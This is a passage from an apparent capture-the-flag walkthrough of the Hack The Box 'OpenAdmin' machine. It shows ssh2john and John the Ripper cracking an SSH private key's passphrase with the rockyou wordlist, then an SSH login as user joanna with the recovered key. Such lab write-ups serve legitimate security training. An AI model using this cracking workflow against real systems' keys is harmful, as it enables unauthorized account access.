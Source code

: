 Looks like we do not have the password to the RSA key. Let's try to crack the RSA key to get the password. First we need to unzip our wordlist. On Kali, unzip the rockyou.txt.gz file with the following commands:

```bash
root@kali:~# sudo gunzip /usr/share/wordlists/rockyou.txt.gz
root@kali:~# wc -l /usr/share/wordlists/rockyou.txt
14344392 /usr/share/wordlists/rockyou.txt
```

Now we need to get the hash out of the RSA Private Key, to do this following the commands below.

```bash
root@kali:~# /usr/share/john/ssh2john.py ~/HTB/machines/OpenAdmin/key > ~/HTB/machines/OpenAdmin/rsa.hash
root@kali:~#
```

Now that we have the RSA hash let's try to crack the hash via `john` and the `rockyou` password list.

```bash
root@kali:~# /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ~/HTB/machines/OpenAdmin/rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (/root/HTB/machines/OpenAdmin/key)
1g 0:00:00:16 DONE (2020-01-22 19:26) 0.06188g/s 887481p/s 887481c/s 887481C/s
Session completed
root@kali:~#
```

And voila! We have the password to `joanna`, the password is `bloodninjas`. Let's ssh into `joanna`'s account with the password of `bloodninjas`:

```bash
root@kali:~# ssh joanna@10.10.10.171 -i ~/HTB/machines/OpenAdmin/key
Enter passphrase for key '/root/HTB/machines/OpenAdmin/key':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan 22 18:34:42 UTC 2020

  System load:  0.0               Processes:             108
  Usage of /:   49.0% of 7.81GB   Users logged in:       0
  Memory usage: 27%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.
Last login: Wed Jan 22 18:29:19 2020 from 10.10.14.42
joanna@openadmin:~$
```
